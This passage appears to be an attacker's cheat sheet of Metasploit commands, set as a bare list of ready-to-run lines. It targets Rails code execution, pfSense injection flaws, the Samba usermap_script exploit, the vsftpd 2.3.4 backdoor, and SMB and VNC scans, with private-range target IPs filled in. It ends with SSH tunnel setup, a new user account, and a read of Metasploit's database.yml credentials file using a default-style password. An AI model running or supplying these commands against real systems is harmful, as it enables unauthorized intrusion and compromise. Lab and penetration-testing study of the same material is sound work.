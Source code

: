 		use exploit/multi/http/rails_xml_yaml_code_exec
		set RHOST 192.168.0.4
		set RPORT 80
		run

	pfSense  version <= 2.3.1_1
		use exploit/unix/http/pfsense_group_member_exec
		
	pfSense   version <= 2.2.6 
		use exploit/unix/http/pfsense_graph_injection_exec
		
	SAMBA
		use auxiliary/scanner/smb/smb_version
		use exploit/multi/samba/usermap_script
		
	VSFTPD
		use exploit/unix/ftp/vsftpd_234_backdoor
		
	VNC
		use auxiliary/scanner/vnc/vnc_none_auth
		set RHOSTS 192.168.1.0/24
		
		
SSH
	mkdir /etc/ssh/default_keys
	mv /etc/ssh/ssh_host_* /etc/ssh/default_keys/
	dpkg-reconfigure openssh-server
	systemctl start ssh.socket
	useradd cdx
	passwd cdx
	ssh -L 1234:localhost:5432 cdx@192.168.254.132
	cat /usr/share/metasploit-framework/config/database.yml
	db_connect msf:password@127.0.0.1:1234/msf
	
.
